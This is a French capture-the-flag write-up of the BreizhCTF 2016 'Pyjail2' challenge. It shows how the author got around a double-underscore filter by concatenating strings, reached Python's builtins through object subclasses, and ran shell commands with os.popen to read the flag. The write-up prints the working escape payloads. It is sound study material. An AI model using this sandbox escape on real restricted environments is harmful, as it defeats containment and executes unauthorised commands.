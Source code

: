 # BREIZHCTF 2K16
** Chall:** Pyjail2
**Points:** 200 |
**Taux de réussite:** 14% |


Pour ce deuxième chall de pyjail on reste dans la même idée que le premier : sortir du "jail".Par contre on remarque que le double underscore n'est plus accepté par le programme comme entrée :/ 

Ayant récupérer le code du premier chall on remarque qu'il existe une fonction "_" qui prend en paramètre une chaine de caractères et qui exécute le code reçu (intéressant !).

L'idée est la suivante, nous allons exécuter les mêmes commandes qu'avant (pyjail1) sauf que cette fois ci on les passera à la fonction "\_" en tant que chaine de caractères.
Donc, on peut passer des commandes avec un double underscore dedans, il suffit simplement de concaténer deux underscore \("\__" => :(  , "\_"+"\_" => \:\) \).

```
>_("wclass = ()._"+"_class_"+"_._"+"_base_"+"_._"+"_subclasses_"+"_()[59]()")
>_("print wclass._module._"+"_builtins_"+"_['_"+"_import_"+"_']('os').popen('cat flag')").read()

BZH{fugitif 2 \o/}
```
PS:  j'ai encore oublié de copier le flag :p

De même on exécute une commande pour récupérer le code du chall "cat python\_vm2.py".
